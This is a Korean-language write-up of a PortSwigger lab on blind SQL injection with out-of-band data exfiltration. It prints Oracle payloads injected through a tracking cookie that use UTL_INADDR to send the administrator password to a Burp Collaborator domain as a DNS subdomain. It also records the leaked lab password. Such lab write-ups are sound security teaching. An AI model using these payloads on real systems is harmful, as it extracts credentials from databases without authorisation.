

# Blind SQL injection with out-of-band data exfiltration

## 문제 조건과 설명

추적 쿠키의 값이 비동기 SQL 조회에 들어간다. 조회 결과는 애플리케이션 응답에 표시되지 않으며, 비동기 처리 때문에 페이지의 응답을 비교하는 방법만으로는 SQL 결과를 읽을 수 없다. 공식 설명은 주입된 조회로 외부 도메인과 상호작용할 수 있다고 알려 준다.

**16번과 이번 문제의 차이**

앞선 out-of-band 실습은 **DNS 조회가 발생했는지**를 확인하는 것이 완료 조건이었다. 이번에는 그 통신 경로를 이용해 **데이터베이스 안의 값 자체를 알아내야 한다.** SQL 실행의 흔적만 남기는 것과 관리자 비밀번호를 외부 이벤트에서 식별 가능한 형태로 전달하는 것은 서로 다른 단계다.

공식 설명은 `users` 테이블과 `username`, `password` 열이 존재한다고 알려 준다. `administrator`의 실제 비밀번호는 주어지지 않는다. **완료 조건은 그 값을 외부 상호작용으로 확인한 뒤 관리자 계정으로 로그인하는 것**이다. DNS 이벤트 하나를 확인했더라도 그 이벤트에 비밀번호가 포함되지 않았다면 목표를 달성한 것이 아니다.

**탐색에서 확인할 순서와 제약**

먼저 보낸 쿠키 요청과 짝을 지을 수 있는 외부 이벤트가 실제로 도착하는지 확인해야 한다. 그다음 계정 조회에서 얻으려는 값을 외부 요청의 식별 가능한 부분에 담을 수 있는지 살펴보고, 수신 기록에서 읽은 값을 로그인으로 검증해야 한다. 데이터가 DNS 이름에 들어간다면 허용되는 문자와 길이 때문에 표현 방법도 확인해야 한다. 어떤 SQL 구문과 인코딩이 통하는지는 문제 설명만으로 확정할 수 없다.

공식 주의 문구에 따라 Academy 방화벽은 임의의 외부 시스템으로 가는 상호작용을 차단하므로, **Burp Collaborator의 기본 공개 서버를 사용해야 한다.** 외부 이벤트가 없을 때는 이 환경 제약을 먼저 고려해야 한다. 아래에는 직접 확인한 이벤트와 계정 값만 기록한다.

출처: [PortSwigger 실습 설명](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

## 탐색 및 풀이 기록

### 초기 관찰

새 실습 인스턴스의 첫 화면 요청에서 `TrackingId` 쿠키를 받았다. 정상 요청과 주입 요청은 모두 HTTP 200, 본문 4,535바이트로 같았다. 웹 응답으로는 SQL 실행 결과를 구별할 수 없어, 직접 생성한 Burp Collaborator 주소의 **DNS 수신 기록**을 확인했다. 아래 예시의 `<원래 TrackingId>`와 `<고유값>`은 각각 인스턴스 쿠키와 수신용 도메인의 식별자를 뜻한다.

먼저 고정 도메인을 조회하는 식을 쿠키에 넣자 해당 주소의 DNS 이벤트 2건이 도착했다. 주입된 SQL이 실행되고 수신 기록을 읽을 수 있음을 확인한 대조 시험이다.

### 실행 과정

고정 도메인 시험에 사용한 쿠키 값은 다음과 같다. `UTL_INADDR.GET_HOST_ADDRESS`는 인수로 받은 호스트 이름을 DNS로 조회한다. [Oracle `UTL_INADDR` 문서](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_INADDR.html)

~~~sql
<원래 TrackingId>' UNION SELECT UTL_INADDR.GET_HOST_ADDRESS('<고유값>.oastify.com') FROM dual-- -
~~~

DNS 조회가 확인된 뒤에는 도메인 맨 앞에 `administrator`의 비밀번호를 연결했다. Oracle에서 `users`의 `password`를 읽고, 그 값을 `<고유값>.oastify.com` 앞의 하위 도메인으로 사용한다.

~~~sql
<원래 TrackingId>' UNION SELECT UTL_INADDR.GET_HOST_ADDRESS(
  (SELECT password FROM users WHERE username='administrator') || '.<고유값>.oastify.com'
) FROM dual-- -
~~~

이 값을 URL 인코딩해 `TrackingId` 쿠키에 담아 상품 페이지를 요청했다. 웹 응답은 HTTP 200, 본문 4,535바이트로 정상 요청과 같았다. 대신 Collaborator에서 다음 호스트 이름에 대한 DNS 이벤트 2건을 받았다.

~~~text
9cn0o3ivx864gu54gpjk.<고유값>.oastify.com
~~~

맨 앞의 `9cn0o3ivx864gu54gpjk`가 새 인스턴스의 `administrator` 비밀번호다. 이 방법은 웹 응답에 데이터가 표시되지 않아도 DNS 조회 이름으로 값을 읽는다. [PortSwigger SQL 인젝션 치트시트](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## 최종 결과

기존 인스턴스에서는 수신한 비밀번호로 `administrator` 계정에 로그인해 계정 화면과 `Congratulations, you solved the lab!` 배너를 확인했다. 이번 새 인스턴스에서는 `UTL_INADDR`만으로 관리자 비밀번호가 DNS 수신 기록에 나타나는 것까지 확인했다.

## 배운 점

고정 도메인에 대한 DNS 이벤트는 **외부 조회가 가능함을 확인하는 단계**다. 데이터 추출을 확인하려면 조회된 호스트 이름 자체에 비밀번호가 들어 있어야 한다. `UTL_INADDR.GET_HOST_ADDRESS`의 인수에 SQL 조회 결과를 붙이면 별도 HTTP 요청 없이 DNS 수신 기록으로 값을 읽을 수 있었다. 실습 인스턴스마다 비밀번호는 달라지므로 기록된 값은 해당 인스턴스에 한정된다.

## 관련 개념

- [Burp Collaborator 공개 서버용 CLI 클라이언트 구현](../../concepts/burp-collaborator-cli-client.md)
- [SQL 기초와 SQL 인젝션이 생기는 원리](../../concepts/sql-injection-foundations.md)
